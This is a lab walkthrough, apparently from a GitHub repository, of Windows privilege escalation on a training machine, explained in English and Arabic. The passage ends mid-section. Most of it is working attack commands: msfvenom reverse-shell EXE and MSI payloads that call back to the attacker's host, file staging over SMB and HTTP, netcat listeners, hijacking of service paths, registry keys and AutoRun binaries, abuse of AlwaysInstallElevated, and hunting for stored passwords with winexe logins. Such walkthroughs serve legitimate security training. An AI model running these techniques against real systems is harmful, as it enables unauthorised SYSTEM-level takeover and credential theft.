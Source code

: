 # Windows PrivEsc

<img width="1907" height="364" alt="image" src="https://github.com/user-attachments/assets/82f1df6e-1dca-4555-bfea-af1faf6f0869" />


>[!note]
> ### Connect to Target using `RDP srvice enabled`:
>
> ```ruby
> xfreerdp3 /u:user /p:password321 /cert:ignore /v:10.10.103.25
> ```
> Or
> ```ruby
> rdesktop 10.10.103.25 -u user -p password321
> ```
> #### `if winrm service is enabled` :
> ```ruby
> evil-winrm -i 10.10.103.25 -u user -p 'password321'
> ```
> #### `if SMB service is enabled` :
> ```ruby
> smbclient //MACHINE_IP/C$ -U user
> ```




- <details>
     <summary>Nmap Scan</summary>

  ```ruby
  nmap -sC -sV  10.10.103.25 
  ```
  
  **`output`**
  
  ```ruby
  PORT     STATE SERVICE       VERSION
  135/tcp  open  msrpc         Microsoft Windows RPC
  139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
  445/tcp  open  microsoft-ds  Windows Server 2019 Standard Evaluation 17763 microsoft-ds
  3389/tcp open  ms-wbt-server Microsoft Terminal Services
  |_ssl-date: 2025-09-08T19:27:18+00:00; -2s from scanner time.
  | ssl-cert: Subject: commonName=WIN-QBA94KB3IOF
  | Not valid before: 2025-09-07T18:56:41
  |_Not valid after:  2026-03-09T18:56:41
  | rdp-ntlm-info: 
  |   Target_Name: WIN-QBA94KB3IOF
  |   NetBIOS_Domain_Name: WIN-QBA94KB3IOF
  |   NetBIOS_Computer_Name: WIN-QBA94KB3IOF
  |   DNS_Domain_Name: WIN-QBA94KB3IOF
  |   DNS_Computer_Name: WIN-QBA94KB3IOF
  |   Product_Version: 10.0.17763
  |_  System_Time: 2025-09-08T19:27:08+00:00
  5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
  |_http-title: Not Found
  |_http-server-header: Microsoft-HTTPAPI/2.0
  Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows
  
  Host script results:
  | smb-security-mode: 
  |   account_used: guest
  |   authentication_level: user
  |   challenge_response: supported
  |_  message_signing: disabled (dangerous, but default)
  |_clock-skew: mean: 1h23m59s, deviation: 3h07m51s, median: -1s
  | smb-os-discovery: 
  |   OS: Windows Server 2019 Standard Evaluation 17763 (Windows Server 2019 Standard Evaluation 6.3)
  |   Computer name: WIN-QBA94KB3IOF
  |   NetBIOS computer name: WIN-QBA94KB3IOF\x00
  |   Workgroup: WORKGROUP\x00
  |_  System time: 2025-09-08T12:27:11-07:00
  | smb2-security-mode: 
  |   3:1:1: 
  |_    Message signing enabled but not required
  | smb2-time: 
  |   date: 2025-09-08T19:27:12
  |_  start_date: N/A
  
  Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
  Nmap done: 1 IP address (1 host up) scanned in 256.26 seconds
  ```
  
  - **`3389/tcp open  ms-wbt-server`** : That is mean `RDP service` is work
  - **`5985/tcp open  http`** : That is mean `WinRM HTTP service` is work
  - **`445/tcp  open  microsoft-ds`** : That is mean `SMB service` is work


     
  </details>



<details>
  <summary>Generate a Reverse Shell Executable</summary>

## 1. first Create **`Reverse Shell file`** on my kali device

```ruby
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=53 -f exe -o reverse.exe
```

- **`msfvenom`** : Tool from Metasploit used to generate payloads.
- **`-p windows/x64/shell_reverse_tcp`** : Reverse shell type
- **`LHOST`** : Device IP that will recive the shell in this case will be my kali machine
- **`LPORT`** : port that shell will connect to it on kali
- **`-f exe`** : output file type `exe`
- **`-o reverse.exe`** : put the output in file call ``reverse.exe``

## 2. send reverse sell to windows

**`on kali Device open smb servrice on directory that have reverseshell file`**

```ruby
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py kali .
```
### **`or it's alias`**

```ruby
impacket-smbserver kali . -smb2support
```



- **`kali`** : name share
- **`.`** : files that will avilable in the share here in current folder
- **`-smb2support`** : It makes the server support the SMBv2 protocol (important because modern Windows often does not accept SMBv1).


**`on Windows Device`**

```ruby
copy \\10.8.47.102\kali\reverse.exe C:\PrivEsc\reverse.exe
```

- copy file from kali machine to windows


---

<img width="638" height="147" alt="image" src="https://github.com/user-attachments/assets/0fb8c918-0b43-445d-81ce-ba68f457888f" />


<img width="1441" height="449" alt="image" src="https://github.com/user-attachments/assets/dce924e7-a87f-4dff-af42-349654bc9647" />

- **`that is mean file is copied to windows`**

---

### **`now run the reverse file on windows with lesten on port 4444 on kali`**

<img width="715" height="307" alt="image" src="https://github.com/user-attachments/assets/6c150d81-145e-4b5f-b16d-8985d3ffaf89" />

- **`here we go we receved the shell `**


  
</details>









<details>
  <summary>Service Exploits</summary>




- <details>
      <summary>🟦Understanding</summary>

  
  ## ``1. know all services that work on system and it's privileges``
  
  # **`CMD`**
  
  ```ruby
  sc query type= service state= all
  ```
  
  # **`PowerShell`**
  
  ```ruby
  Get-Service | Select-Object Name, Status, StartType
  ```
  
  
  ---
  ---
  
  ## ``2. know the privilges of the user on each service``
  
  ```ruby
  accesschk.exe -uwcqv user *
  ```
  
  > you must download **`accesschk.exe`**
  > 

  https://learn.microsoft.com/en-us/sysinternals/downloads/accesschk

  <details>
    <summary>send it to vectem</summary>
  
  ## **`using SMB`**
  
  **`on kali`**
  
  ```ruby
  sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py kali .
  
  ```
  
  **`on windows`**
  
  ```ruby
  copy \\10.10.10.10\kali\accesschk.exe C:\PrivEsc\accesschk.exe
  ```
  
  ----
  ----
  
  ## **`using Powershell`**
  
  **`on windows`** if device connected to internet
  
  ```ruby
  Invoke-WebRequest -Uri "http://10.10.10.10/accesschk.exe" -OutFile "C:\PrivEsc\accesschk.exe"
  ```
  
  **`on kali`**
  
  ```ruby
  python3 -m http.server 80
  ```
  
  
    
  </details>


  > by default it downloaded on this machine 





  ---
  ---
  
  ## 3. found the services that work as **`SYSTEM`**
  
  # **`CMD`**
  
  ```ruby
  sc qc <ServiceName>
  ```
  
  > - look at **`SERVICE_START_NAME`** value
  
  # **`PowerShell`**
  
  ```ruby
  Get-WmiObject Win32_Service | Select-Object Name, StartName
  ```


  </details>








- <details>
      <summary>Insecure Service Permissions</summary>

  
  > ### Goal is prevEsc form normal user to `SYSTEM privileges` by **`daclsvc`** service 
  
  ## 1. first check the pricvllage of current user on this service ``(daclsvc)``
  
  ```ruby
  C:\PrivEsc\accesschk.exe /accepteula -uwcqv user daclsvc
  ```
  
  - **`accesschk.exe`** : This is Tool form _Sysinternals_ to check on privilege of current user on (files, folders, etc...)
  - **`/accepteula`** : this option to pybaass the first priv window
  - **`-uwcqv`** : options
    - **`u`** : user account
    - **`w`** : writeing privileges
    - **`c`** : change `config` privileges
    - **`q`** : `quiet` to make it simple
    - **`v`** : `verbose` for more details
  - **`user`** : username of current user
  - **`daclsvc`** : service name
      
  
  ---
  
  <img width="584" height="296" alt="image" src="https://github.com/user-attachments/assets/c8ab3ba2-ad0a-4c86-99e3-ace3b7ce30fb" />
  
  ### - **`Found that user have`** :
  
  ```ruby
  SERVICE_CHANGE_CONFIG
  ```
  ### - ``Thats mean this user can change settings of this service``
  
  
  ---
  
  ## 2. now we want to know privileges of the current service
  
  ```ruby
  sc qc daclsvc
  ```
  
  - **`sc qc`** : query config for service
  - **`daclsvc`** : name of the service
  
  ---
  
  <img width="860" height="319" alt="image" src="https://github.com/user-attachments/assets/abec5e68-4f0c-439c-933e-79bc3f289979" />
  
  ### - we found :
  
  - **`SERVICE_START_NAME`** : the account that this service work with it
  - **`LocalSystem`** : that is mean if we run this service any program will run as **`SYSTEM`**
  
  
  
  ---
  
  > ### NOW WE know that :
  > - this service can work as **`SYSTEM`**
  > - current user can edit this service settings **`SERVICE_CHANGE_CONFIG`**
  
  
  ## 3. change the path of this service to path of our reverse shell that will send shell to kali with **`SYSTEM`** privileges : 
  
  ```ruby
  sc config daclsvc binpath= "\"C:\PrivEsc\reverse.exe\""
  ```
  
  - **`sc config`** : change service settings
  - **`binpath=`** : the new path to that service will run it
  - **`\"C:\PrivEsc\reverse.exe\`** : reverse shell that we sent it before
  
  
  ### **`lesten on port 4444 on kali`**
  
  ### **`run the service`**
  
  <img width="677" height="212" alt="image" src="https://github.com/user-attachments/assets/ad7a133f-2592-45ba-9083-47dfb2ed716b" />
  
  ---
  
  ## receved the shell :
  
  <img width="719" height="210" alt="image" src="https://github.com/user-attachments/assets/7d36208c-ce01-4047-9eaf-04c855830e50" />
  
  ---
  
  ## see that we now **`SYSTEM`** user
  
  ```ruby
  whoami
  ```
  
  <img width="327" height="79" alt="image" src="https://github.com/user-attachments/assets/64e23bed-3b42-4219-8714-a256a4f0db96" />
  
  <details>
    <summary>more commands</summary>
  
  
  ## to see our privilleges
  
  ```ruby
  whoami /priv
  ```
  <img width="1282" height="624" alt="image" src="https://github.com/user-attachments/assets/a65ceb03-b5b5-4c09-a2fc-a2214f0ef8fc" />
  
  
  ## see the groups that i'm in : 
  
  ```ruby
  whoami /groups
  ```
  
  <img width="1158" height="249" alt="image" src="https://github.com/user-attachments/assets/c2689996-2809-4a2d-bec0-9508e3c0a142" />
  
  ```ruby
  systeminfo
  ```
  
  <img width="796" height="599" alt="image" src="https://github.com/user-attachments/assets/1ec7bb31-9838-41fd-8872-ffe6e0b1d56c" />
  
  ## to show all env variables: 
  
  ```ruby
  set
  ```
  
  <img width="1403" height="554" alt="image" src="https://github.com/user-attachments/assets/5a9fa26d-e836-4fe0-9ada-2372d7e46a96" />
  
  
    
  </details>
  
  
  > ## now the answer of the question :
  > What is the original BINARY_PATH_NAME of the daclsvc service?
  
  ```ruby
  sc qc daclsvc
  ```
  
  <img width="860" height="319" alt="image" src="https://github.com/user-attachments/assets/abec5e68-4f0c-439c-933e-79bc3f289979" />
  
  **`answer`**
  
  ```ruby
  C:\Program Files\DACL Service\daclservice.exe
  ```
  


  </details>













- <details>
      <summary>Unquoted Service Path</summary>

     
     
     > ## in windows each service has :
     > - **`BINARY_PATH_NAME`** : THE path with refer to the place that have **`exe`** that this service will run it
     >   - if it's value writen without ``"..."`` that mean we can exploit it
     
     
     ---
     
     ## 1. first get info about the service (unquotedsvc)
     
     ```ruby
     sc qc unquotedsvc
     ```
     
     ## - found two important things
     
     > - **`SERVICE_START_NAME : LocalSystem`** : that is mean this service work as **`SYSTEM`**
     > - **`BINARY_PATH_NAME        : C:\Program Files\Unquoted Path Service\Common Files\unquotedpathservice.exe`**
     >>  - IT without ``"..."``
     
     
     <img width="883" height="262" alt="image" src="https://github.com/user-attachments/assets/888cae7d-e707-4a32-bf40-02b668d079b5" />
     
     ---
     
     ## 2. TRY To know the privilege of current user on this path
     
     ```ruby
     C:\PrivEsc\accesschk.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service\"
     ```
     
     ## - **`RW BUILTIN\Users`** : that is mean any normal user can do read and write in this folder
     
     
     <img width="823" height="173" alt="image" src="https://github.com/user-attachments/assets/418384ed-aeff-4838-91b8-966a9933ba4d" />
     
     
     ---
     
     ## 3. move the reverse shell file to the new path with new name 
     
     
     ```ruby
     copy C:\PrivEsc\reverse.exe "C:\Program Files\Unquoted Path Service\Common.exe"
     ```
     
     <img width="778" height="82" alt="image" src="https://github.com/user-attachments/assets/28249e57-c476-4664-b89f-7b136ef20544" />
     
     
     
     ## 4. open listener on kali
     
     ```ruby
     sudo nc -nvlp 4444
     ```
     
     ## 5. run the service 
     
     ```ruby
     net start unquotedsvc
     ```
     
     <img width="963" height="412" alt="image" src="https://github.com/user-attachments/assets/5b8eaba2-2421-4e4d-9d67-96e604910b74" />
     
     ---
     
     <img width="1646" height="214" alt="image" src="https://github.com/user-attachments/assets/c25163f8-d4d4-4446-94b9-6398e62bcc7d" />
     



  </details>















- <details>
      <summary> Weak Registry Permissions</summary>

     
     
     > ## in windows each service has settings stored in `Registry` like:
     > - **`SERVICE_START_NAME`** : who run the service
     > - **`BINARY_PATH_NAME`** : the excutable file that run when this service run
     
     
     ## 1. first get info about the service (regsvc):
     
     ```ruby
     sc qc regsvc
     ```
     
     ```c
       BINARY_PATH_NAME   : "C:\Program Files\Insecure Registry Service\insecureregistryservice.exe"
       SERVICE_START_NAME : LocalSystem
     ```
     
     
     <img width="836" height="255" alt="image" src="https://github.com/user-attachments/assets/5019fb82-41c1-45f7-8983-dcd88310af44" />
     
     
     ## 2. check the privilege of this user to wirte on **`Registry`**
     
     ```ruby
     C:\PrivEsc\accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\regsvc
     ```
     
     ```perl
     RW NT AUTHORITY\INTERACTIVE
           KEY_ALL_ACCESS
     ```
     
     ### - `that is mean any user have access to write on registry key of this service`
     
     
     <img width="797" height="192" alt="image" src="https://github.com/user-attachments/assets/88afff65-8a8a-4eaf-b3ad-ddc0cfedfbe0" />
     
     
     
     ## 3. edit Registry value and make it refer to our reverseshell file
     
     ```ruby
     reg add HKLM\SYSTEM\CurrentControlSet\Services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\PrivEsc\reverse.exe /f
     ```
     
     - **`/v ImagePath`** : It determines that we change this particular value.
     - **`/t REG_EXPAND_SZ`** : Value type (String extended).
     - **`/d C:\PrivEsc\reverse.exe`** : New data (new path).
     - **`/f`** : (to not ask you for confirmation).
      
     
     ## 4. open Listener on kali
     
     ```ruby
     nc -nvlp 4444
     ```
     
     
     ## 5. run the service
     
     ```ruby
     net start regsvc
     ```
     
     
     <img width="995" height="568" alt="image" src="https://github.com/user-attachments/assets/0ae50a32-d149-46f3-98a6-4e17d9175224" />
     


     <details>
        <summary>الفرق بين daclsvc و regsvc Exploits</summary>
     
     
     
     
     
     ## الفرق بين daclsvc و regsvc Exploits
     
     
     الـ 2 إكسبلويت شبيهين في النتيجة (تشغيل ملفنا كـ SYSTEM)، لكن الاختلاف في **إيه اللي اتحكمنا فيه وإزاي**:
     
     ### 1️⃣ أول exploit (daclsvc)
     
     الأوامر:
     
     ```cmd
     sc qc daclsvc
     sc config daclsvc binpath= "\"C:\PrivEsc\reverse.exe\""
     net start daclsvc
     ```
     
     * الخدمة أصلاً كانت بتشاور على ملف EXE في الـ `binpath`.
     * اليوزر عنده **SERVICE\_CHANGE\_CONFIG** → يقدر يعدّل إعدادات الخدمة باستخدام `sc config`.
     * غيّرنا الـ **binpath** بتاع الخدمة وخليّناه يشاور على ملفنا (reverse.exe).
     * لما شغّلنا الخدمة → الملف بتاعنا اتنفذ كـ SYSTEM.
     
     **الخلاصة**: استغلال صلاحية "تغيير إعدادات الخدمة" (config).
     
     ### 2️⃣ تاني exploit (regsvc)
     
     الأوامر:
     
     ```cmd
     accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\regsvc
     reg add HKLM\SYSTEM\CurrentControlSet\Services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\PrivEsc\reverse.exe /f
     net start regsvc
     ```
     
     * الخدمة (regsvc) بتشاور على المسار بتاعها من الريجستري (`ImagePath`).
     * عندنا صلاحية **كتابة على مفتاح الريجستري** ده (مش config بتاع الخدمة نفسها).
     * بدلنا قيمة الـ `ImagePath` في الريجستري وخليّناه يشاور على `reverse.exe`.
     * لما شغّلنا الخدمة → برضه ملفنا اتنفذ كـ SYSTEM.
     
     **الخلاصة**: استغلال صلاحية "كتابة في الريجستري" بدل "تغيير إعدادات الخدمة".
     
     ### الفرق الرئيسي:
     
     * **daclsvc**: عدّلنا إعدادات الخدمة باستخدام أمر `sc config` (بسبب صلاحية خدمة).
     * **regsvc**: عدّلنا **الريجستري** اللي الخدمة بتسحب منه الإعدادات (بسبب صلاحية على الريجستري).
     
     ---
     
     ## جدول مقارنة بين أنواع Service Exploits
     
     | نوع الاستغلال                 | المكان/الصلاحية المطلوب  | الطريقة                              | النتيجة                               |
     | ----------------------------- | ------------------------ | ------------------------------------ | ------------------------------------- |
     | DACL / Config Exploit         | SERVICE\_CHANGE\_CONFIG  | sc config تغيير binpath              | تشغيل ملف كـ SYSTEM                   |
     | Registry Exploit              | Write على Registry       | reg add لتغيير ImagePath             | تشغيل ملف كـ SYSTEM                   |
     | Unquoted Path Exploit         | Write على مجلد الخدمة    | وضع ملف باسم معين داخل مجلد غير مقفل | تشغيل الملف بصلاحيات SYSTEM عند start |
     | AlwaysInstallElevated Exploit | سياسات Windows Installer | تثبيت MSI خبيث                       | تشغيل كـ SYSTEM                       |
     | Weak Service Permissions      | أذونات ضعيفة على الخدمة  | sc config / binpath                  | تشغيل كـ SYSTEM                       |
     
     *ملاحظة*: كل الطرق السابقة تعتمد على أن الخدمة تعمل تحت SYSTEM أو حساب عالي الصلاحيات.
     
     
     ---


     # Windows Service Paths Explained
     
     ## 1️⃣ BINARY_PATH_NAME
     - ده الـ **path الحقيقي** للـ executable اللي السيرفيس هيشغله.
     - لما تعمل `sc config <service> binpath= "..."`، أنت فعليًا بتغير **المكان اللي النظام هيشغل منه البرنامج**.
     - أي تغيير هنا بيأثر على السيرفيس فورًا بعد إعادة التشغيل.
     
     ## 2️⃣ ImagePath
     - ده موجود في **Registry** تحت المسار:
       ```
       HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\<ServiceName>
       ```
     - القيمة دي هي نفسها `BINARY_PATH_NAME`، لأنها مجرد **طريقة Windows لتخزين path السيرفيس** في الريجستري.
     - عمليًا هما بيشاوروا لنفس الملف، لكن `ImagePath` موجود في الريجستري، و`BINARY_PATH_NAME` بيشتغل بيه `sc.exe`.
     
     ## 3️⃣ العلاقة بينهم
     - لو غيرت `BINARY_PATH_NAME` عن طريق `sc config` → النظام بيحدث الـ `ImagePath` في الريجستري تلقائي.
     - لو غيرت `ImagePath` مباشرة في الريجستري → السيرفيس مش هيعرف لحد ما تعمله restart أو تستخدم `sc` لتحديثه.
     
     ## 4️⃣ ليه في Exploit غيرنا `binpath`؟
     - الهدف كان **تشغيل الـ reverse shell الخاص بينا كخدمة**.
     - الأمر المستخدم:
       ```
       sc config daclsvc binpath= "\"C:\PrivEsc\reverse.exe\""
       ```
     - ده بيخلي السيرفيس يشتغل بالـ executable بتاعنا بدل الأصلي.
     - وده أساسي في **privilege escalation** على Windows لأن السيرفيس بيشتغل بـ SYSTEM privileges.
     
     ## مثال تشبيهي
     - تخيل عندك دفتر (Registry) وورقة (BINARY_PATH_NAME) فيها نفس الرقم:
       - لو كتبت الرقم في الورقة → الدفتر بيتحدث تلقائي.
       - لو كتبت الرقم في الدفتر بس → الورقة مش هتعرف إلا لما تقول لها "حدّثي نفسك" (restart أو `sc`).
     
     
          
     
     
     
     
     </details>






  </details>














- <details>
      <summary>Insecure Service Executables</summary>

     
     ## 1. Query the service configuration
     
     ```ruby
     sc qc filepermsvc
     ```
     
     - **`sc`** : `(Service Control)` Tool in windows
     - **`qc`** : `(Query Configuration)` to get service settings
     
     ---
     
     ```ruby
             BINARY_PATH_NAME   : "C:\Program Files\File Permissions Service\filepermservice.exe"
             SERVICE_START_NAME : LocalSystem
     ```
     
     
     <img width="856" height="276" alt="image" src="https://github.com/user-attachments/assets/8def86f3-a0a7-4c06-9e67-bd75f5a2f2ba" />
     
     ---
     
     ## 2. Check file permissions with accesschk
     
     ```ruby
     C:\PrivEsc\accesschk.exe /accepteula -quvw "C:\Program Files\File Permissions Service\filepermservice.exe"
     ```
     
     - **`accesschk.exe`** : Tool from _Sysinternals_
     - **`/accepteula`** : It means "I agree to the user agreement" (required the first time).
     - **`-quvw`**
        - **`q`** : quiet
        - **`u`** : show user-specific permissions
        - **`v`** : `verbose` More detail
        - **`w`** : It focuses on write permissions (who has the authority to write to the file).
     - **`"C:\Program Files\File Permissions Service\filepermservice.exe"`** : The file whose permissions we want to see.
     
     ---
     
     ```ruby
      RW Everyone
             FILE_ALL_ACCESS
     ```
     
     ### - `🚨 that is mean every one on this system They have almost all the permissions on the file (read, write, modify, delete...).`
     
     
     
     <img width="923" height="268" alt="image" src="https://github.com/user-attachments/assets/71ec6c24-5cf3-4433-91dd-595bb89f31d8" />
     
     
     
     ## 3. Replace the service binary
     
     
     ```ruby
     copy C:\PrivEsc\reverse.exe "C:\Program Files\File Permissions Service\filepermservice.exe" /Y
     ```
     
     - **`copy`** : File copy command.
     - **`C:\PrivEsc\reverse.exe`** : The reverse shell we created (our malicious file).
     - **`"C:\Program Files\File Permissions Service\filepermservice.exe"`** : The original file of the service.
     - **`/Y`** : He lets the copying happen without asking you, “Are you sure you want to overwrite?”
     
     
     <img width="886" height="135" alt="image" src="https://github.com/user-attachments/assets/549d2f3a-bbfa-478d-8937-8b2065bd3199" />
     
     
     ## 4. Start listener on Kali
     
     ```ruby
     nc -lvnp 4444
     ```
     
     ## 5. Start the service
     
     ```ruby
     net start filepermsvc
     ```
     
     - **`net`** : A Windows tool for managing networks and services.
     - **`start`** : Service run command.
     - **`filepermsvc`** : service name
     
     
     <img width="1003" height="272" alt="image" src="https://github.com/user-attachments/assets/9898c0ad-670a-4870-aa16-862b6406cdb2" />
     
     



  </details>
  



  
</details>












<details>
  <summary>Registry</summary>



- <details>
     <summary>AutoRuns</summary>

     
     
     ## 1. Query the registry for AutoRun executables
     
     ```ruby
     reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
     ```
     
     - **`reg`** : A tool for managing the registry in Windows (query, add, delete...).
     - **`query`** : It means "View the contents of the key" (read only).
     - **`HKLM`** : HKEY_LOCAL_MACHINE shortcut (part of the registry that stores system settings for all users).
     - **`SOFTWARE\Microsoft\Windows\CurrentVersion\Run`** : The key that stores programs that start automatically when the system starts (Autoruns).
     
     
     <img width="728" height="147" alt="image" src="https://github.com/user-attachments/assets/16f69e3c-fea4-4bb8-96e5-fefde26211f3" />
     
     ```ruby
           "C:\Program Files\Autorun Program\program.exe"
     ```
     
     
     > ---
     > ### 📌 _The goal is to see which programs start automatically with every restart or login._
     > ---
     
     ## 2. Check file permissions with AccessChk
     
     
     ```ruby
     C:\PrivEsc\accesschk.exe /accepteula -wvu "C:\Program Files\Autorun Program\program.exe"
     ```
     
     - **`accesschk.exe`** : Tool from _Sysinternals_
     - **`/accepteula`** : It means "I agree to the user agreement" (required the first time).
          - **`-uvw`**
             - **`u`** : show user-specific permissions
             - **`v`** : `verbose` More detail
             - **`w`** : It focuses on write permissions (who has the authority to write to the file).
     - **`"C:\Program Files\Autorun Program\program.exe"`** : The executable file of the program that runs automatically.
     
     
     <img width="782" height="350" alt="image" src="https://github.com/user-attachments/assets/17076342-3a83-4c72-b480-87831a635f8d" />
     
     ```ruby
      RW Everyone
             FILE_ALL_ACCESS
     ```
     
     
     > ---
     > ### 📌 _The goal → Check if this file is writable by any user (Everyone or BUILTIN\Users). If ah → this is a big weakness._
     > ---
     
     
     ## 3. Overwrite the AutoRun executable
     
     ```ruby
     copy C:\PrivEsc\reverse.exe "C:\Program Files\Autorun Program\program.exe" /Y
     ```
     
     <img width="799" height="84" alt="image" src="https://github.com/user-attachments/assets/083692ef-67ad-4936-902c-7a9e67ff94e1" />
     
     
     > ---
     > ### 📌 _Goal → Replace the program that runs automatically (program.exe) with our reverse shell._
     > ---
     
     
     ## 4. Start a listener on Kali
     
     ```ruby
     nc -lvnp 4444
     ```
     
     
     ## 5. Open a new RDP session to trigger
     
     ```ruby
     rdesktop 10.10.110.227
     ```
     
     > login with 
     
     ```css
     admin : password123
     ```
     
     <img width="515" height="291" alt="image" src="https://github.com/user-attachments/assets/a961e489-b99d-4bc2-b54b-b2f3e9a001f8" />
     
     ---
     
     <img width="1563" height="800" alt="image" src="https://github.com/user-attachments/assets/28d8261b-470d-49f0-a6f4-fdf1f704b37a" />
     
     
     > ---
     > ### 📌 _Shell will return with the privileges of the user who loged in_
     > ---
     

  </details>









- <details>
     <summary>AlwaysInstallElevated</summary>
     
     
     ## 1. Query the registry for AlwaysInstallElevated keys
     
     ```ruby
     reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
     reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
     ```
     
     - **`reg`** : A tool for managing the registry in Windows (query, add, delete...).
     - **`query`** : It means "View the contents of the key" (read only).
     - **`HKLM`** : HKEY_LOCAL_MACHINE shortcut (part of the registry that stores system settings for all users).
     - **`HKCU`** : HKEY_CURRENT_USER shortcut (settings specific to the current user).
     - **`\SOFTWARE\Policies\Microsoft\Windows\Installer`** : Path to Windows Installer settings.
     - **`/v AlwaysInstallElevated`** : It means "Show me the value of the entry called `AlwaysInstallElevated`".
     
     <img width="846" height="236" alt="image" src="https://github.com/user-attachments/assets/d9c6095b-91f8-481b-993e-ddd252f7b347" />
     
     
     > ---
     > ### 📌 _Goal → Make sure that the two keys are present and set to 1 `(0x1)` → if yes That is mean any ``MSI package`` can be installed with `SYSTEM privileges`._
     > ---
     
     
     ## 2. Generate malicious MSI with msfvenom (on Kali)
     
     
     ```ruby
     msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.8.47.102 LPORT=4444 -f msi -o reverse.msi
     ```
     
     - **`msfvenom`** : Tool from Metasploit used to generate payloads.
     - **`-p windows/x64/shell_reverse_tcp`** : Reverse shell type
     - **`LHOST`** : Device IP that will recive the shell in this case will be my kali machine
     - **`LPORT`** : port that shell will connect to it on kali
     - **`-f msi`** : output file type `msi`
     - **`-o reverse.msi`** : put the output in file call ``reverse.msi``
     
     
     > ---
     > ### 📌 _Goal → Create a malicious MSI file that opens Reverse Shell._
     > ---
     
     
     ## 3. Transfer the MSI to Windows
     
     **`on kali`**
     
     ```ruby
     impacket-smbserver frank . -smb2support
     ```
     
     **`on windows`**
     
     ```ruby
     copy \\10.8.47.102\frank\reverse.msi C:\PrivEsc\
     ```
     
     <img width="1799" height="528" alt="image" src="https://github.com/user-attachments/assets/67da4d1c-c81c-4fd5-9cda-07fc681b94d5" />
     
     
     
     ## 4. Start a listener on Kali
     
     ```ruby
     nc -lvnp 4444
     ```
     
     
     ## 5. Run the malicious MSI on Windows
     
     ```ruby
     msiexec /quiet /qn /i C:\PrivEsc\reverse.msi
     ```
     
     - **`msiexec`** : Windows Installer (responsible for installing .msi).
     - **`/quiet`** : install program without any GUI or popups.
     - **`/qn`** : Same idea (Quiet with No UI).
     - **`/i`** : install package
     - **`C:\PrivEsc\reverse.msi`** : The file we want to install.
     
     > ---
     > ### 📌 _Goal → Since `AlwaysInstallElevated=1` in `HKLM and HKCU` → any MSI installed will be installed as SYSTEM.Therefore, our reverse shell runs directly with SYSTEM privileges._
     > ---
     
     
     <img width="1299" height="269" alt="image" src="https://github.com/user-attachments/assets/dacdf0e5-a030-40cb-a0bf-983259fa7f6d" />
     
     
     



  </details>



     
</details>

















<details>
  <summary>Passwords</summary>




- <details>
     <summary>Registry</summary>

     
     >[!note]
     > **`(For some reason sometimes the password does not get stored in the registry. If this is the case, use the following as the answer: password123)`**
     
     
     ## 1. Search for the word "password" in the registry
     
     ```ruby
     reg query HKLM /f password /t REG_SZ /s
     ```
     
     - **`reg`** : A tool for managing the registry in Windows (query, add, delete...).
     - **`query`** : It means "View the contents of the key" (read only).
     - **`HKLM`** : HKEY_LOCAL_MACHINE shortcut (part of the registry that stores system settings for all users).
     - **`/f password`** : /f means “filter” → Here we look for the text “password”.
     - **`/t REG_SZ`** : This means looking for values ​​of type string.
     - **`/s`** : `search recursively` (Searches all subkeys)
     
     
     > ---
     > ### 📌 _Goal → To see if anywhere in the registry there is a password stored in plain text._
     > ---
     
     
     ## 2. Search directly for AutoLogon key
     
     
     ```ruby
     reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\winlogon"
     ```
     
     - It goes directly to Winlogon key.
     - In some systems, this contains values ​​like:
        - **`DefaultUserName`**
        - **`DefaultPassword`**
        - **`AutoAdminLogon`**
     
     <img width="971" height="611" alt="image" src="https://github.com/user-attachments/assets/a727bcec-3976-4a4b-a097-53c290ca3265" />
     
          
     
     > ---
     > ### 📌 _Goal → To access the stored admin username and password so that the system performs an automatic login._
     > ---
     
     
     ## 3. Executing a command on the system using Winexe
     
     ```ruby
     winexe -U 'admin%password' //10.10.194.107 cmd.exe
     ```
     
     - **`winexe`** : A tool that allows you to run commands on a Windows machine from a remote Linux machine (similar to PsExec).
     - **`-U 'admin%password'`** :
        - **`-U`** : user
        - **`'admin%password'`** : Here we specify the username and password in the form `username%password`.
          - **`Example`** : `'admin%password123'`.
     - **`cmd.exe`** : The program we want to run on the target device (here is the command prompt).
     
     
     <img width="919" height="322" alt="image" src="https://github.com/user-attachments/assets/b1522bdc-bc17-4ef9-94ac-fa01a0d493c1" />
     
     
     
     
     > ---
     > ### 📌 _Goal → Command Prompt will open for you with Administrator privileges on the target device while you are running Kali._
     > ---




  </details>









- <details>
     <summary>Saved Creds</summary>

     ## 1. View stored Credentials
     
     ```ruby
     cmdkey /list
     ```
     
     - **`cmdkey`** : A built-in Windows tool for managing Stored Credentials.
     - **`/list`** : display all credentials Saved in the system.
     
     <img width="624" height="286" alt="image" src="https://github.com/user-attachments/assets/d2523f9e-11b6-4c5c-a214-8cdb185886cb" />
     
     
     > ---
     > ### 📌 _Goal → To see if there is a user (such as admin) stored with its password in the Windows Vault._
     > ---
     
     <details>
          <summary>Note</summary>
     
     >[!Note]
     > #### _**`Note that credentials for the "admin" user are saved. If they aren't, run the`**_
